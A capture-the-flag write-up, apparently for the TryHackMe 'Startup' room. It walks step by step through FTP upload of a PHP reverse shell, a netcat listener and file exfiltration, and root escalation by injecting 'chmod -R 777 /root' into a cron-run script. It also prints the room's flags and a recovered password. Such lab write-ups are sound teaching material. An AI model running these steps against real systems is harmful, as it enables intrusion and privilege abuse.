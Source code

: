 # Startup

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, wireshark, pspy64

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.228.144

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-script SCRIPT: run specified scripts<br>
-sV: probe open ports to determine service/version info
```
nmap --script vuln -sV 10.10.228.144
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3)<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18)

Anonymous login allowed to ftp server

Enumerate hidden directories on webserver
```
gobuster dir -u http://10.10.228.144 -w /usr/share/dirb/wordlists/common.txt
```

![1.2](./imgs/1.2.png)

Directory of Interest: /files

![1.3](./imgs/1.3.png)

10.10.228.144/files is hosting ftp

potential username found in notice.txt: maya

image found that could have hidden data<br>

See if there is anything hidden in important.jpg
```
binwalk important.jpg
steghide extract -sf important.jpg
```

nothing interesting found

### 2. REVERSE SHELL

Copy php reverse shell and edit IP
```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

![2.1](./imgs/2.1.png)

Upload php reverse shell to ftp server<br>
the /ftp directory has open permissions so we can upload to there 
```
ftp anonymous@10.10.228.144
put php-reverse-shell.php
```

![2.2](./imgs/2.2.png)

Start listener
```
nc -lnvp 1234
```

Activate the php reverse shell
```
curl http://10.10.228.144/files/ftp/php-reverse-shell.php
```

![2.3](./imgs/2.3.png)

```
cat recipe.txt
```
![2.4](./imgs/2.4.png)

**SECRET INGREDIENT**: love

```
cd incidents
```

Found pcap file

![2.5](./imgs/2.5.png)

Transfer to host machine

Start listener
```
nc -lnvp 4444 > file.pcapng
```

Send file
```
nc -v 10.10.228.144 4444 < suspicious.pcapng
```

### 3. WIRESHARK

Open pcap file in wireshark

![3.1](./imgs/3.1.png)

Someone started a reverse shell to 192.168.22.139:4444

Also found password

![3.2](./imgs/3.2.png)

**PASSWORD**: c4ntg3t3n0ughsp1c3

### 4. PIVOT

user lennie in /home directory

SSH as lennie
```
ssh lennie@10.10.228.144
```

![4.1](./imgs/4.1.png)

**USER FLAG**: THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

### 5. PRIVILEGE ESCCALATION

check privileges
```
sudo -l
```

No sudo privileges

Found potential script we could exploit

![5.1](./imgs/5.1.png)

planner.sh is owned by root and executes /etc/print.sh<br>
lennie owns print.sh so we can inject or own code into it

Check for cronjobs executed by root<br>
Get pspy64 from https://github.com/DominicBreuker/pspy and transfer to lennie
```
scp pspy64 lennie@10.10.228.144:/home/lennie/pspy64
```

Run pspy64
```
chmod +x pspy64
./pspy64
```

![5.2](./imgs/5.2.png)

planner.sh is being executed by root every minute

Edit print.sh and exfiltrate files in /root<br>
-R recursively apply permissions
```
echo "chmod -R 777 /root" >> /etc/print.sh
```

This will give /root and all its contents open permissions

![5.3](./imgs/5.3.png)

**ROOT FLAG**: THM{f963aaa6a430f210222158ae15c3d76d}

